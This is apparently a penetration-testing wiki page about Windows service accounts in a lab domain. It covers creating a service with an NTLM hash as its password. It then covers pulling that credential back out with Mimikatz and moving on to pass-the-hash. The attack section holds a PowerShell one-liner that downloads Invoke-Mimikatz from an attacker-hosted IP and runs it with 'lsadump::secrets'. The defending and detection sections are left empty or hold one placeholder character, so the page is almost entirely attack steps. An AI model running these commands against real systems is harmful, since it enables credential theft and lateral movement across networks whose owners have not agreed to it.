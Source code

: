 ```yaml
---
description: >-
  It's possible to create custom services, which will run with a local or a
  domain account. When you have high enough privilege's, it's possible to
  retrieve the credentials of the service.
---
```


# Services

## Configuring

### Prerequisite&#x20;

* domain account, which will run the service.&#x20;

### Configuring

We've created the user account _noah._

1. Login with an Administrator account into the machine, where you want to configure the service. In our example we will configure this within WS01.
2. Open up _cmd.exe_
3. We're going to execute the command:

```
sc create <name> binPath="C:\nonexisting.exe" obj="<username>@<domain>" password="<plaintext password or NTLM hash of the user>"
```

The password of the service can be fake. So to make our attack a bit more fun, we're going to place the NTLM hash of our user Noah. This will enable us to make it a 'pass-the-hash' attack.

In our example we're going to execute the following command:

```
 sc create TryToReadThePassword binPath="C:\Program Files\OfThisService.exe" obj="Noah@Amsterdam" password="02671733e400aa35ad23828f5df3b676"
```

When executed, we will get a success message.

## Attacking

### How it works



### Tools

[https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)

### Executing the attack

For this attack we need a high priviliged user.

1. Start PowerShell as an Administrator.
2. Execute MimiKatz. This can be done in many ways. In our example we will be hosting Invoke-mimikatz.ps1 on our attacker machine.\
   \
   The command we will be running within our PowerShell session is:

```
IEX (New-Object System.Net.Webclient).DownloadString('http://<ip>/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::secrets" "exit"'
```

The result is that our freshly created service is shown, including with username and password

![](../../../.gitbook/assets/image.png)

With the hash we can try to execute pass-the-hash attacks.

## Defending

### Recommendations

* a

### Detection



## References
